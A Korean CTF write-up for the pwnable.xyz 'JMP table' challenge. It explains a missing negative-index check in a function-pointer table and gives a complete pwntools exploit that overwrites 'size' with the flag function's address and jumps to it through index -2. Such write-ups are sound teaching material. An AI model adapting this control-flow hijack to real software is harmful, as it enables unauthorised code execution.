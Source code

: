 ```yaml
---
title: "[pwnable.xyz]JMP table"
date: 2020-1-25
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


메인에서는 입력받고 함수 포인터로 각각 기능들을 실행해준다. 

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed int v3; // [rsp+Ch] [rbp-4h]

  setup(*&argc, argv, envp);
  while ( 1 )
  {
    print_menu();
    printf("> ");
    v3 = read_long();
    if ( v3 <= 4 )
      (*(&vtable + v3))();
    else
      puts("Invalid.");
  }
}
```

취약점은 음수 체크를 안한다. 그래서 함수포인터에서 read_long()에서 입력받은 값으로 4이하 모든 곳에 참조할 수 있다. 근데 마침 vtable뒤에 heap_buffer와 size가 존재한다. size에 원하는 주소 값을 넣어서 해당 변수를 참조하면 원하는 주소로 뛸 수 있다.

```
.data:00000000006020B0                 public size
.data:00000000006020B0 ; size_t size
.data:00000000006020B0 size            dq 1                    ; DATA XREF: do_malloc+1E↑w
.data:00000000006020B0                                         ; do_malloc+25↑r ...
.data:00000000006020B8                 public heap_buffer
.data:00000000006020B8 ; void *heap_buffer
.data:00000000006020B8 heap_buffer     dq 1                    ; DATA XREF: do_malloc+3F↑w
.data:00000000006020B8                                         ; do_malloc+50↑w ...
.data:00000000006020C0                 public vtable
.data:00000000006020C0 vtable          dq offset do_exit       ; DATA XREF: main+4E↑o
.data:00000000006020C8                 dq offset do_malloc
.data:00000000006020D0                 dq offset do_free
.data:00000000006020D8                 dq offset do_read
.data:00000000006020E0                 dq offset do_write
.data:00000000006020E0 _data           ends
```

사이즈는 `do_malloc()` 함수에서 변경 가능하다 이 영역을 `cat /flag` 해주는 함수 주소로 덮어쓴다. 그리고 vtable과 size 주소의 차이는 16이니까 -2 해주면 flag 출력해주는 함수를 실행할 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30007)
flag = e.symbols['_']
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
s = lambda x : p.send(x)

def malloc(size):
	sla('>','1')
	sla(':',str(size))

def free():
	sla('>','2')

def read(data): #input
	sla('>','3')
	s(data)

def write(): # print
	sla('>','4')

def quit():
	sla('>','5')

malloc(flag)
sla('>','-2')

p.interactive()
```

